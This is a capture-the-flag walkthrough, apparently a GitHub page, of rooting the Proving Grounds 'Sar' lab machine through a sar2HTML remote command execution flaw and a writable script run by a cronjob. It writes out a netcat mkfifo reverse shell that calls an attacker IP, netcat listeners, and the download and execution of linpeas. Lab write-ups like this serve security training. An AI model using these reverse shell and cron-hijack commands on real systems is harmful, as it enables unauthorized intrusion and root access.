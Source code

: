 # Sar Walkthrough
Hello Hackers!

This is f33z, and Today i will share with you my walkthrough on how i solved the machine Sar in the Prouving Ground machines, This is exactly in the play section

## Port Scanning
Port scanning is my way to know open ports in this machine, and nmap is our friend
```bash
nmap -p- -T4 -v [IP-ADDRESS]
```
this revealed that there are two open ports : 22, 80
to check which services are running in these open ports, we run nmap with -sC and -sV
```bash
nmap -p22,80 -sC -sV [IP-ADDRESS]
```
and As expected, this machine is running a web server in port 80, and a ssh in the port 22.

## Enumeration
Since The version of ssh doesnt seem old and also we dont know the credentials to use to login to SSH, then we will start with port 80
### port 80 - HTTP
The root directory of the website was the default page of apache server, since we know there is a robots.txt file as we saw in the nmap results 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/e3ed9372-6738-430a-91ab-8317fdaf566f)

We got `sar2HTML` string and after searching we found that this is a CMS, this CMS is deployed in http://[IP-ADDRESS]/sar2HTML

## Initial Access
Since this is the version 3.2.1, it is vulnerable to [Remote Command Execution](https://www.exploit-db.com/exploits/47204)

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/8286fe94-3695-43ac-8f37-99da53df91bc)

After understanding the exploit, I applied it on our machine : and yes we got the output of `id` after clicking on the `host`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/d1ad8db8-c454-4bda-a9d5-630c6a6247d7)

To get an Initial Access to the webserver, we will be be getting a reverse shell from [this](https://www.revshells.com/) website, the reverse shell that i chose is `nc mkfifo` and i set the IP ADDRESS and the port

I used Burpsuite so i can encode my payload by clicking `CTRL+u`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/f4a1ff9b-8092-4770-9312-20ad71f04904)


I also set a listener on the same port 
```bash
nc -nlvp 9001
```
And YUUUP we got initial access as www-data user

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/2f4f4a71-00e7-47ad-9be8-bda57c06fad0)


## Privilege Escalation
To Escalate from www-data user privileges to higher privileges, I uplaoded the linpeas script to the machine
in my kali linux :
```bash
python3 -m http.server 80
```
in the Sar machine
```bash
cd /tmp
wget http://IP-ADDRESS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
After Going through the output of linpeas, i found that there is a cronjob running in this machine

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ed6a0a2c-c584-49b2-b98f-a7c2ca97cfd5)

After checking the content of `finally.sh` script, I found that it runs another script in the same directory called `write.sh`, we dont have write permissions in the file `finally.sh` but we have them in the file `write.sh`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/aa7379af-b888-40d1-a16f-3e79fe158b88)

So we can create a reverse shell as we did earlier for getting initial access and write that reverse shell into `write.sh`

in Sar machine : 
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.216 9002 >/tmp/f' >> write.sh
```
in the Kali linux machine :
```bash
nc -nlvp 9002
```

After waiting 5 min, because that's the time in the cron, to get more understanding of cronjob format :

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/7fa2fd43-568e-4da8-85ec-002c0f522fe1)

within 5 min we goot a response in the netcat listener!

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/e16647b7-e1b3-4e70-b7ac-7b97bf95b092)


and Guess what we are GROOT!!

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/f8e8152f-27e5-464f-9ea9-1e4715a0395c)










